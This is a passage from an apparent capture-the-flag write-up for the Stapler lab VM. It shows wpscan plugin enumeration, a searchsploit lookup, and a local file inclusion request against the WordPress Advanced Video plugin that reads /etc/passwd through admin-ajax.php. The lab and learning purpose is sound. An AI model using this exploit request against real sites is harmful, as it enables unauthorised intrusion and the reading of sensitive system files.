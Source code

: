 wpscan also has a mode for checking vuln plugins, but I typically have limited success in determining _vulnerable_ plugins with this tool, we'll search for all plugins and check manually.

> TODO link file

```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate ap --disable-tls-checks --plugins-detection aggressive -o wpscan_plugins.txt
```
this takes a little time, but eventually we see directory listing is available and the plugins are here ```https://192.168.56.104:12380/blogblog/wp-content/plugins/```

lets check searchsploit for the video plugin:

``` bash
searchsploit wordpress plugin video advanced
# gives us
WordPress Plugin Advanced Video 1.0 - Local File Inclusion                         | exploits/php/webapps/39646.py
```

LFI... now we are talking!

``` bash
cp /usr/share/exploitdb/exploits/php/webapps/39646.py .
```

the PoC code in the exploit suggests that we can test the functionality with this url:
http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]


the exploit produces a success of sort

if we go to ```https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/passwd``` we should create a file upload with the contents of /etc/passwd.

the exploit produces a success of sorts and a url.

Following the url above we get a 404. hmmmm so what happened? 

lets take a closer look at the url parameters of the php page:
/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]

the call is not directly to a plugin url, it is to admin-ajax.php from the wp-admin directory.

quick google of this returns:

`
Introduced in WordPress 3.6 the WordPress Heartbeat API allows WordPress to communicate between the web-browser and the server. It allows for improved user session management, revision tracking, and auto saving. ... The WordPress Heartbeat API uses /wp-admin/admin-ajax.php to run AJAX calls from the web-browser.
`

ok so this is not the plugin but the WP site that is calling this

Lets look at the options: action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]

action=ave_publishPost - action the admin-ajax.php is going to do
title=random - filename generator for the published post
short=1 - True
term=1 - True
thumb=[FILEPATH] - this is the image that is published
